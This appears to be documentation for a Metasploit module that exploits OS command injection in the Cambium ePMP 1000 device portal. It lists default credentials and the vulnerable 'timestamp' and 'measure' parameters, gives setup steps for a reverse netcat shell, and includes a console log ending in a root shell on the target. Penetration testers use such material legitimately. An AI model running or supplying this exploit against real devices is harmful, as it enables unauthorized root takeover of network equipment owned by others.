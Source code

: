 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to set up a reverse netcat shell. This module injects the payload in 'timestamp' parameter. Alternatively, a second, vulnerable parameter 'measure' can also be used. The module has been tested on versions 3.1-3.5-RC7.

Note: `cmd/unix/reverse_netcat` is the only payload that seems to work and is stable. After the session is opened, there may be a slight delay in response after first command is issued. There are no delays in receiving responses to subsequent command(s). It is recommended to use 'exploit -j'.

## Verification Steps

1. Do: ```use exploit/unix/http/epmp1000_get_chart_cmd_shell```
2. Do: ```set RHOST [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set LHOST [IP]```
5. Do: ```exploit -j```

## Scenarios

  ```
msf > use use exploit/unix/http/epmp1000_get_chart_cmd_shell
msf exploit(epmp1000_get_chart_cmd_shell) > set RHOST 192.168.0.2
msf exploit(epmp1000_get_chart_cmd_shell) > set RPORT 80
msf exploit(epmp1000_get_chart_cmd_shell) > set LHOST 192.168.0.104
msf exploit(epmp1000_get_chart_cmd_shell) > exploit -j

[*] Started reverse TCP handler on 192.168.0.104:4444
[+] SUCCESSFUL LOGIN - 192.168.0.2:80 - "installer":"installer"
[*] Sending payload...
[*] Command shell session 5 opened (192.168.0.104:4444 -> 192.168.0.2:41941) at 2017-12-02 05:05:00 +0700

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -l

Active sessions
===============

  Id  Type            Information  Connection
  --  ----            -----------  ----------
  5   shell cmd/unix               192.168.0.104:4444 -> 192.168.0.2:41941 (192.168.0.2)

msf exploit(epmp1000_get_chart_cmd_shell) > sessions -i 5
[*] Starting interaction with 5...

id
uid=0(root) gid=0(root)

  ```
